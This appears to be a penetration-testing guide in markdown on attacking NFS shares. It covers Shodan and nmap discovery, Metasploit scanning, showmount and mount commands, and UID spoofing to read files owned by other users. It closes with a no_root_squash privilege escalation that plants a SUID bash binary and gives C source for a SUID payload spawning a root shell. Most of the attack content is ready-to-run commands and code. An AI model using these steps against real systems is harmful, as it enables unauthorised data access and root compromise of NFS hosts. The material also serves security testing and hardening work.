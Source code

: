 ```yaml
---
title: NFS Pentesting Best Practices
categories: [pentesting protocols,nfs]
tags: [pentesting,nfs,best practicies]
comments: true
---
```


# NFS

> NFS usually uses ports 111, 2049
{: .prompt-tip }

# What is NFS?

NFS (Network FileSysem) is a very stable and powerful file system for sharing storage devices of UNIX/Linux operating systems. Thanks to NFS; The same files can be accessed from multiple computers. It provides convenience in data storage. Instead of installing to the local disk for each application, it allows applications to be shared.

```bash
PORT     STATE SERVICE               VERSION
2049/tcp open  nfs    
```

# NFS Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:2049 |

## Misconfigured NFS

A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.

### NFS Service Detection in Network with Nmap

```bash
nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs.png)

### Network NFS Service Detection with Metasploit

```bash
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run
```

![Untitled](/assets/img/pitcures/nfs/nfs1.png)

### NFS Shares Listing With "showmount"

```bash
showmount -e 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs2.png)

### Access to discovered NFS shares

```bash
mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.
```

### Access to discovered NFS shares with same user UID Permissions

In the terminal we can see the shared arguments and what UID value they belong to a user.

```bash
-rwxr----- 1923 1000 1898 example.doc
```

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let's unmount the mount we mounted with the unmount command. Then let's create a user with the same UID value in the local system.

```bash
umount /connect_path
```

Yes, we have unmounted. Now let's create a user with the same UID value.

```bash
useradd newuser
```

setting the user UID value

```bash
usermod -u 1923 newuser
```

Connecting the share to the local system again after setting the UID value.

```bash
mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path
```

## NFS no_root_squash/no_all_squash misconfiguration PE

Read the `/etc/exports`{: .filepath}  file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no_all_squash:** This is similar to no_root_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports`{: .filepath} file; no_all_squash option is present; check /etc/passwd`{: .filepath} file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

### Privilege Escalation

#### Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the `/bin/bash` binary and giving it SUID rights, and executing from the victim machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

**Mounting that directory** in a client machine, and as root copying inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and execute from the victim machine that binary (you can find here some C SUID payloads).

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```
